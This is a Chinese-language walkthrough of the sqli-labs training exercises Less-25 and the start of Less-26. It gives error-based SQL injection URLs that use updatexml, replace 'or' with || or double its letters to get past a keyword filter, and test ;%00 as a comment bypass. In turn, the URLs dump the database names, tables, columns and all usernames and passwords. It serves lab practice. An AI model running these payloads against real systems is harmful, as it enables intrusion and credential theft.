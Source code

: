 
---


# Sqli-labs-Less-25  方法二
**使用报错注入**<br />**查看当前数据库**<br />http://169.254.4.80/sql/Less-25/?id=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1<br />报错，查看提示or被清除掉了<br />![](https://img-blog.csdnimg.cn/20200721163323733.png#crop=0&crop=0&crop=1&crop=1&id=Nnhm3&originHeight=36&originWidth=1004&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**在这里我们不将or进行双写，而是将or改为||**<br />http://169.254.4.80/sql/Less-25/?id=1' || updatexml(1,concat(0x7e,(select database()),0x7e),1) || '1'='1<br />成功爆出<br />![](https://img-blog.csdnimg.cn/2020072116343124.png#crop=0&crop=0&crop=1&crop=1&id=PsfFD&originHeight=180&originWidth=1097&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有数据库（注意将information中的or双写）**<br />http://169.254.4.80/sql/Less-25/?id=1' || updatexml(1,concat(0x7e,(select group_concat(schema_name) from infoorrmation_schema.schemata),0x7e),1) || '1'='1<br />![](https://img-blog.csdnimg.cn/2020072116361855.png#crop=0&crop=0&crop=1&crop=1&id=zfqWD&originHeight=174&originWidth=1099&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表（security）**<br />http://169.254.4.80/sql/Less-25/?id=1' || updatexml(1,concat(0x7e,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'),0x7e),1) || '1'='1<br />![](https://img-blog.csdnimg.cn/20200721163755450.png#crop=0&crop=0&crop=1&crop=1&id=LWsrD&originHeight=167&originWidth=1108&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://169.254.4.80/sql/Less-25/?id=1' || updatexml(1,concat(0x7e,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users'),0x7e),1) || '1'='1<br />![](https://img-blog.csdnimg.cn/20200721164630241.png#crop=0&crop=0&crop=1&crop=1&id=FTZ7N&originHeight=186&originWidth=1098&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户和密码（将password中的or双写）**<br />http://169.254.4.80/sql/Less-25/?id=1' || updatexml(1,concat(0x7e,(select group_concat(concat_ws('~',username,passwoorrd)) from security.users),0x7e),1) || '1'='1<br />![](https://img-blog.csdnimg.cn/20200721164717320.png#crop=0&crop=0&crop=1&crop=1&id=ijQFu&originHeight=192&originWidth=1114&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据。**


# Sqli-labs-Less-26
![](https://img-blog.csdnimg.cn/20200723111031546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=onnAq&originHeight=347&originWidth=1088&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**TIPS:本关可能有的朋友在 windows 下无法使用一些特殊的字符代替空格，此处是因为 apache 的解析的问题，这里请更换到 linux 平台下**

**判断注入点**<br />http://www.web.com/sql/Less-26/?id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/20200722193824392.png#crop=0&crop=0&crop=1&crop=1&id=HVnSj&originHeight=33&originWidth=1537&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-26/?id=1'--+<br />还是报错，提示显示--+被注释掉了，这里使用;%00<br />http://www.web.com/sql/Less-26/?id=1';%00<br />成功<br />![](https://img-blog.csdnimg.cn/20200722152753521.png#crop=0&crop=0&crop=1&crop=1&id=aAim0&originHeight=155&originWidth=439&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
